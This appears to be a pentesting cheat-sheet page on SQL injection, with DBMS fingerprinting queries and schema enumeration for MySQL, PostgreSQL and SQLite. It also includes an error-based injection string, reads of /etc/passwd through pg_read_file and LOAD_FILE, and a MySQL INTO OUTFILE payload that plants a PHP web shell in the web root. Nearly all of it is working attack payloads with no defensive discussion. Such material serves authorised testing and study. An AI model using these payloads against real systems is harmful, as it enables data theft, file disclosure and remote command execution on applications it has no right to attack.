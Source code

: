 ```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "server-side"
weight: 620
toc: true
---
```


## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL          | SQLite              | MySQL               |
| ------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`        | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`          | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`           | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`        | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`       | *Unknown*           | `SLEEP(4)`          |

## Database enumeration

### MySQL

```
SELECT GROUP_CONCAT(schema_name,',') FROM information_schema.schemata;
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(table_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## Error based

### PostgreSQL

```
' AND 1=CAST((SELECT username FROM users) AS int)--
```

## File read/write & RCE

### PostgreSQL

```
select pg_ls_dir('.');
select pg_read_file('/etc/passwd');
```

### MySQL

```
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
